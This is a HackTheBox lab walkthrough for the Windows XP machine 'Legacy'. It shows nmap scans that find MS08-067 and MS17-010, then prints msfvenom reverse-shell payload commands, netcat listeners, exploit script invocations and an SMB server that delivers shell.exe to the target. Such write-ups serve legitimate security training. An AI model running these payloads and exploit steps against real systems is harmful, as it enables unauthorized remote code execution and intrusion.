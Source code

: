 # HackTheBox Legacy

> Author: Hades

> [*Scripting here*](https://github.com/leecybersec/scripting)

![](images/1.png)

## Information Gathering

### Openning Services

```
┌──(Hades㉿10.10.14.5)-[0.5:14.1]~/scripting
└─$ sudo ./enum/all.sh 10.10.10.4
[sudo] password for kali: 

### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.4 | grep ^[0-9] | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//

[+] Openning ports: 139,445,3389

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.4 -p139,445,3389
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-31 23:38 EDT
Nmap scan report for 10.10.10.4
Host is up (0.25s latency).

PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: -4h16m00s, deviation: 2h07m16s, median: -5h46m00s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:c4:3d (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2021-04-01T03:52:25+03:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.23 seconds
```

### Server Message Block

Enum with `smbmap` and `smbclient`, but cannot see value info.

```
### SMB Enumeration (445) ############################
smbmap -H 10.10.10.4                                                                                                                                                        
[+] IP: 10.10.10.4:445  Name: 10.10.10.4                                        
smbclient -L 10.10.10.4         
protocol negotiation failed: NT_STATUS_IO_TIMEOUT
```

Using `nmap` to scan smb vulnerability:

```
┌──(Hades㉿10.10.14.5)-[0.6:18.5]~/scripting
└─$ nmap -p 139,445 --script smb-vul* 10.10.10.4 -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-31 23:43 EDT
Nmap scan report for 10.10.10.4
Host is up (0.25s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

Nmap done: 1 IP address (1 host up) scanned in 36.31 seconds
```

## Foothold

### smb-vuln-ms08-067

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/legacy)

<a href='https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py' target="blank">Microsoft Windows Server 2000/2003 - Code Execution (MS08-067)</a>

In the poc, I neet to `REPLACE THIS SHELLCODE with shellcode generated for your use`.

The bad chars `"\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40"`

``` bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```

Create a listener in Kali machine.

``` bash
sudo nc -nvlp 443
```
Convert poc to python3

```
2to3 ms08-067.py
```

Get reverse shell

```bash
python3 ms08-067.py 10.10.10.4 6 445 > /dev/null
```

![](images/2.png)

Create smb server in Kali Machine to check privilege.

```
sudo smbserver.py public /usr/share/windows-resources/binaries/ > /dev/null
```

```
\\10.10.14.5\public\whoami.exe
```

### smb-vuln-ms17-010

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/legacy)

<a href='https://github.com/helviojunior/MS17-010' target="blank">Microsoft Security Bulletin MS17-010 (EternalBlue/MS17-010)</a>

Generate reverse shell file `shell.exe` in the same payload's folder using `msfvenom`.

``` bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o shell.exe
```

Create a listener in Kali machine.

``` bash
sudo nc -nvlp 443
```

Get reverse shell

```bash
python send_and_execute.py 10.10.10.4 shell.exe > /dev/null
```

![](images/5.png)

Run cmd in poc file

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/legacy)

Get reverse shell

```
sudo smbserver.py public /home/kali/walkthrough/hackthebox/legacy > /dev/null
```

```
python cmd.py 10.10.10.4 '\\10.10.14.5\public\shell.exe' > /dev/null
```

![](images/6.png)

## Reference

[worawit/MS17-010](https://github.com/worawit/MS17-010)

<a href='https://0xdf.gitlab.io/2019/02/21/htb-legacy.html' target="blank">HTB: Legacy of 0xdf hacks stuff</a>

<a href='https://pycryptodome.readthedocs.io/en/latest/src/installation.html' target="blank">Install PyCrypto library</a>